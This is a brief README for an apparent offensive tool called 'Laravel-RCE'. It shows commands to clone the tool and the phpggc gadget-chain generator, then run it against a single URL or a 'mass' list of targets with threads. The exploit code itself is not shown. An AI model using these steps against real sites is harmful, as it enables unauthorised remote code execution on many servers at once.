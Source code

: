 # Laravel-RCE

# Install
`git clone https://github.com/wibuheker/Laravel-RCE.git`
`cd Laravel-RCE`
`git clone https://github.com/ambionics/phpggc.git`
`python3 run.py -h`
# Usage

Single :
python3 run.py -t http://redacted.gg

Mass:
python3 run.py -t list.txt
or if u want use thread
python3 run.py -t list.txt --thread 2
